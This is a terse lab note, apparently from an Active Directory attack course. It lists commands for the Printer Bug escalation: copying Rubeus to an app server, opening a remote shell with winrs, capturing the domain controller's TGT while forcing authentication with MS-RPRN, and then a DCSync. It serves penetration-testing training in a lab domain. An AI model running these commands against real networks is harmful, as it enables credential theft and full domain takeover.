 We can use multiple methods now to copy Rubeus to dcorp-appsrv to

### **Exploit Printer Bug for Escalation to Enterprise Admins Privileges**
- Run the below command from the new process running `appadmin` -:
- echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorp-appsrv\C$\Users\Public\Rubeus.exe /Y
to run rubues in listener mode
- winrs -r:dcorp-appsrv cmd
- C:\Users\Public\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
this is nw looking for a tgt if any thing happens

then we force authentication
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

then - On the `Rubeus` listener, we can see the TGT of `dcorp-dc$` 
Copy the base64 encoded ticket and Use Rubeus with Base64 Encoded Ticket on Student VM for SafetyKatz DCSync Command (Run the below command from an elevated prompt)

rest follow OBJ 15

---



